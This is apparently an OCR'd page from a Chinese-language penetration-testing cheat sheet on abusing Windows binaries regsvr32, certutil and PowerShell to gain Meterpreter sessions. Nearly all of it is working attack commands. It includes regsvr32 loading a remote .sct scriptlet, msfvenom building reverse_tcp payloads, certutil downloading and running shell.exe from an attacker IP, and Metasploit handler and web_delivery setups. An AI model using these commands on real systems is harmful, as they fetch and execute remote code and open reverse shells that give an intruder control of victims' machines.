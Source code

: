 ●  被控端执行 regsvr32 /s /n /u /i:http://192.168.1.121:8080/yvj3GKJwvde.sct scrobj.dll

●  

●  **Certutil.exe**

●  Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目计算机中执行恶意的exe文件以获得meterpreter会话

●  

●  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.121 lport=6666 -f exe > shell.exe

●  python3 -m http.server

●  

●  被控制端 certutil.exe -urlcache -split -f http://192.168.1.121:8000/shell.exe shell.exe & shell.exe

●  

●  use exploit/multi/handler

●  set payload windows/x64/meterpreter/reverse_tcp

●  set lhost 192.168.1.121

●  set lport 6666

●  exploit

●  **Powershell.exe**

●  **Web Delivery****反弹shell**

●  use exploit/multi/script/web_delivery

●  set target 2

●  set payload windows/x64/meterpreter/reverse_tcp

●  set lhost 192.168.1.121

●  set lport 4444

●  exploit -j

●  

●  **powershell****启动cscript.exe**

●  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.121 lport=8888 -f vbs -o 8888.vbs

●  use exploit/multi/handler

●  set payload windows/x64/meterpreter/reverse_tcp

●  set lhost 192.168.1.121

●  set lport 8888

●  exploit

●  
